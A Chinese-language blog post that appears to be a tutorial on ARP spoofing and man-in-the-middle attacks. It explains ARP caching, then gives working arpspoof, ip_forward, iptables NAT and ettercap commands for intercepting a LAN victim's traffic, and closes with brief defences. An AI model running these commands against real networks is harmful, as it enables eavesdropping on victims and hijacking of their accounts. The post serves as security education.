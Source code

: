 ```yaml
---
layout: post
title:  "ARP欺骗与中间人攻击"
date:   2015-11-01 01:19:26
comments: true
categories: Tech
---
```


我在上一篇 [WIFI密码破解笔记][wifi-crack]中说到如何探测附近开放的AP并且破解进入，那么进入别人据局域网我们能干些什么呢？
换句话说如果别人进入了我们内部网络，会有什么影响？本文简要介绍了ARP和MITM原理，并在实际环境中对目标主机的流量进行劫持。
可以看到公共网络中普遍存在许多不安全的问题，藉此来说说局域网中的客户端究竟面临着怎样的隐私泄漏和安全风险。

 
## ARP与MITM原理

### 什么是ARP
ARP全称为Address Resolution Protocol，即地址解析协议。是根据IP地址获取物理地址的一个TCP/IP协议。主机发送信息时将包含
目标IP地址的ARP请求广播到网络上的所有主机，并接收返回消息，以此确定目标的物理地址；收到返回消息后将该IP地址和物理地址
存入本机ARP缓存中并保留一定时间，下次请求时直接查询ARP缓存以节约资源。地址解析协议是建立在网络中各个主机互相信任的基础上的，
网络上的主机可以自主 发送ARP应答消息，其他主机收到应答报文时不会检测该报文的真实性就会将其记入本机ARP缓存；由此攻击者就可以
向某一主机发送伪ARP应答报文，使其发送的信息无法到达预期的主机或到达错误的主机，这就构成了一个ARP欺骗。ARP命令可用于查询
本机ARP缓存中IP地址和MAC地址的对应关系、添加或删除静态对应关系等。

例如，在Linux命令行下:

    #arp -a

    Address                  HWtype  HWaddress           Flags Mask            Iface
    192.168.1.1            ether    0A-11-22-33-44-01   C                     wlan0
    192.168.1.2            ether    0A-11-22-33-44-02   C                     wlan0

可以看到局域网中其他客户端的内网地址和MAC地址。

**工作过程**

现假设主机A的IP地址为192.168.1.1，MAC地址为0A-11-22-33-44-01；  
主机B的IP地址为192.168.1.2，MAC地址为0A-11-22-33-44-02；
当主机A要与主机B通信时，地址解析协议可以将主机B的IP地址（192.168.1.2）解析成主机B的MAC地址，以下为工作流程：

    第1步：根据主机A上的路由表内容，IP确定用于访问主机B的转发IP地址是192.168.1.2。然后A主机在自己的本地ARP缓存中检查主机B的匹配MAC地址。
    第2步：如果主机A在ARP缓存中没有找到映射，它将询问192.168.1.2的硬件地址，从而将ARP请求帧广 播到本地网络上的所有主机。源主机A的IP地址和MAC地址都包括在ARP请求中。本地网络上的每台主机都接收到ARP请求并且检查是否与自己的IP地址 匹配。如果主机发现请求的IP地址与自己的IP地址不匹配，它将丢弃ARP请求。
    第3步：主机B确定ARP请求中的IP地址与自己的IP地址匹配，则将主机A的IP地址和MAC地址映射添加到本地ARP缓存中。
    第4步：主机B将包含其MAC地址的ARP回复消息直接发送回主机A。
    第5步：当主机A收到从主机B发来的ARP回复消息时，会用主机B的IP和MAC地址映射更新ARP缓存。本机缓存是有生存期的，生存期结束后，将再次重复上面的过程。主机B的MAC地址一旦确定，主机A就能向主机B发送IP通信了。

**工作要素：ARP缓存**

ARP缓存是个用来储存IP地址和MAC地址的缓冲区，其本质就是一个IP地址->MAC地址的对应表，表中每一个条目分别记录了网络上其他主机的IP地址和对应的MAC地址。每一个以太网或令牌环网络适配器都有自己单独的表。
当地址解析协议被询问一个已知IP地址节点的MAC地址时，先在ARP缓存中查看，若存在，就直接返回与之对应的MAC地址，若不存在，才发送ARP请求向局域网查询。为使广播量最小，ARP维护IP地址到MAC地址映射的缓存
以便将来使用。ARP缓存可以包含动态和静态项目。动态项目随时间推移自动添加和删除。每个动态ARP缓存项的潜在生命周期是10分钟。新加到缓存中的项目带有时间戳，如果某个项目添加后2分钟内没有再使用，则此
项目过期并从ARP缓存中删除；如果某个项目已在使用，则又收到2分钟的生命周期；如果某个项目始终在使用，则会另外收到2分钟的生命周期，一直到10分钟的最长生命周期。静态项目一直保留在缓存中，直到重新启动计算机为止。

### ARP欺骗与MITM

MITM，全称为Man In The Middle，即中间人。地址解析协议是建立在网络中各个主机互相信任的基础上的，它的诞生使得网络能够更加高效的运行，但其本身也存在缺陷。ARP地址转换表是依赖于计算机中高速缓冲存储器动态
更新的，而高速缓冲存储器的更新是受到更新周期的限制的，只保存最近使用的地址的映射关 系表项，这使得攻击者有了可乘之机，可以在高速缓冲存储器更新表项之前修改地址转换表，实现攻击。ARP请求为广播形式发送的，
网络上的主机可以自主发送 ARP应答消息，并且当其他主机收到应答报文时不会检测该报文的真实性就将其记录在本地的MAC地址转换表，这样攻击者就可以向目标主机发送伪ARP应答报文，从而篡改本地的MAC地址表。ARP欺骗
可以导致目标计算机与网关通信失败，更会导致通信重定向，所有的数据都会通过攻击者的机器。攻击者再对目标和网关之间的数据进行转发，则可作为一个“中间人”，实现监听目标却又不影响目标正常上网的目的。

**攻击实现**

具体的中间人攻击，大体上可以分为以下几个步骤：

    1. 对目标主机进行ARP欺骗，声称自己是网关。
    2. 转发目标的NAT数据到网关，维持目标的外出数据。
    3. 对网关进行ARP欺骗，声称自己是目标主机。
    4. 转发网关的NAT数据到目标主机，维持目标的接收数据。
    5. 监听劫持或者修改目标的进入和外出数据，从而实现攻击。

其中1，3都是ARP欺骗；2，4都是转发，下面会分别说到。

**ARP欺骗**

ARP欺骗又叫ARP投毒（ARP poisoning），实现方式有很多，但其原理都是通过不断向攻击目标发送ARP replies，从而实现重定向从一个主机（或所有主机）到另一个主机的数据包的目的。
这里以dsniff工具集的arpspoof命令为例：

    #arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host

    其中，
    -i 指定使用的接口。
    -c 指定当还原arp配置时t使用的MAC地址，默认为使用原来的MAC。（即当停止arpspoof命令后，默认取消毒化）
    -t 指定要毒化的主机，如果不指定的话默认为局域网下所有主机。
    -r 双向毒化（host和target），从而双向扑捉数据。（仅当同时指定 -t的时候才有效）
    host 为你想要伪装成的主机，通常是本地网关。所有从target到host的数据包都被重定向到本机。
 
**数据流转发**

毒化了目标主机的ARP缓存表之后，其经过网关外出的数据流将会发送到攻击者的主机。但此时由于目的地址出错，目标主机对外的请求将无法到达，亦即无法访问互联网了。为了维持目标正常上网，需要我们在
收到目标来的数据时将其进行转发到真正的网关。

首先开启端口转发，允许本机像路由器一样转发数据：

    #echo 1 > /proc/sys/net/ipv4/ip_forward

有时不能这样直接修改，还有另外一种方法

    修改/etc/sysctl.conf文件，使得net.ipv4.ip_forward = 1；等于0为不转发。然后更新：
    #sysctl -p

此时本机收到的数据包含源地址和目的地址（外网地址），我们需要将其转发到网关。这里进行了（NAT）网络地址转换的功能，关于NAT可参考我前一篇文章[P2P通信原理与实现][p2p]：

    #iptables -t nat -A POSTROUTING -p tcp -s 192.168.1.0/24 -j SNAT --to-source 192.168.1.110

    这条命令的作用是修改本机的转发规则，将所有从本机出去的源地址为192.168.1.XXX的数据包都修改为本机地址192.168.1.110
    其中，
    -t 指定要操作的表，这里是nat
    -A 即--append，表示增加一条规则。nat有三个内建规则，分别是
    　　PREROUTING，在数据包进入时改变其地址
    　　POSTROUTING，在数据包将要出去时改变其地址
    　　OUTPUT，在路由前改变本地产生的数据包地址
    -p 表示数据包要检查的协议
    -s 指定源地址。地址格式可以是网络名字，主机名字，IP地址或者是address/mask格式的网络地址。可以指定多个，-s前加!表示取补集
    -j 指定规则的目标，即如果数据包符合规则该如何做；SNAT表示修改数据包的源地址，且此次链接的余下数据包都不再检查
    --to-source 在SNAT选项下指定所转发数据包的新的源地址，这里设为192.168.1.110，即攻击者的地址

关于iptables的详细用途可以man iptables查看。上述命令描述了外出数据的转发规则，那么从外部来的数据要转发到被攻击主机上也是同理：

    # iptables -t nat -A PREROUTING -p tcp -d 192.168.1.110 -j DNAT --to 192.168.1.114

在本机转发之前将数据包目的地址为192.168.1.110的修改为192.168.1.114（被攻击主机），然后转发出去。

 
**其他工具**

　　上面为了说明原理，吧arp毒化和数据转发分开做，其实利用现有的工具，可以很简单地执行上面的工作，例如用ettercap：

    #ettercap -i wlan0 -Tq -M arp:remote /target/ /host/

一条命令即可完成arp毒化和转发的功能。其中-M表示指定MITM攻击。

 
**后记**

　　一旦中间人建立攻击成功，劫持了目标的上网流量，那么接下来也就为所欲为了。轻则监控目标的上网行为，就如同二十四小时站在你身后看你上网；或者劫持目标的cookie从而用目标的帐号登录诸如微博，人人，
豆瓣等社交网站，浏览其隐私数据，进行发贴删贴等操作；重责进行钓鱼攻击，使目标下载恶意程序或者执行恶意脚本，从而威胁其计算机安全。当然，应对这种攻击的防范方法也有很多，最简单的一种就是绑定MAC地址，
并且在网关MAC地址改变的时候发出提醒，从而防止ARP毒化攻击。还有就是最好不要在公共WiFi下浏览有重要隐私的网站，万一碰上不怀好意的人就在局域网中，那可就是真的“在阳光下行走”了。

[wifi-crack]: http://pannzh.github.io/tech/2015/10/31/wifi-crack.html
[p2p]: http://pannzh.github.io/tech/p2p/2015/10/31/p2p-over-middle-box.html

